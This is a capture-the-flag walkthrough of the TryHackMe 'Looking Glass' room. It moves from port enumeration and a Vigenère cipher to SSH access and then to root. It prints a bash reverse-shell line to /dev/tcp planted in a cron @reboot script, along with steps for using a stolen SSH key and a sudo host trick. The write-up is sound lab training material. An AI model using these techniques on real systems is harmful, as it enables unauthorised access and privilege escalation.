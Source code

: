 # WriteUP for Looking Glass room from TryHackMe

## Objectives :- Get the user flag & Get the root flag.

### Hint :- O(log n) A looking glass is a mirror.

We Start our enumerations from nmap and we see a ton of ports , some of which have higher as output some as lower so this is a simple questions of binary search(hint confirms that). To acheive the real service i wrote this script [port_spammer.py](port_spammer.py). This gives us the real service.(We can try this by bash also).

So We get [this](cipher.txt) from the real service.
Looking around this we can use decode.fr to decode it using cipher Vigerne Cipher which on automatic decryption gives the write key and then we have the [decoded text](decoded.txt).

This file has the the secret 'bewareTheJabberwock'
So we supply this secret to ssh service.
And we get the creds.
and we login to find the user.txt, which has user flag in reverse  order so we can just 
```cat user.txt | rev ```.
now we can look around using linpeas.(lets copy it to the system)
```scp /location/linpeas.sh jabberwock@IP:. ```
Using linoeas we find the vulnerability.
```
@reboot tweedledum bash /home/jabberwock/twasBrillig.sh
```
and we see that upon reboot tweedledum will run this the script in present on out directory so we can add a line
```
/bin/bash -c '/bin/bash -i >& /dev/tcp/<our ip>/<port> 2>&1 0>&1'
```
and we will listen on our machine from the port.
and we will get a reverse connection as tweedeldum.

And we get a file 'HumptyDumpty' which has many hashes out 5 are SHA256 we can crack it using CrackStation but they are not the password the final line is the password which is in base16.

Now that we have the password for humptydumpty we can login as humpty dumpty.
Now after much looking we realise that alice is executable but not readable, and the .ssh folder is executable by humptydumpty and the id_rsa is readable.
so now we can login as alice.
```
chmod 600 alice_id_rsa
ssh -i alice_id_rsa alice@IP
``` 
now that we are alice we can take a look at /etc/sudoers.d
and find out that alice can become root user named as ssalg-gnikool using
```sudo -h ssalg-gnikool```

and now we are root and we can get the root.txt file. 
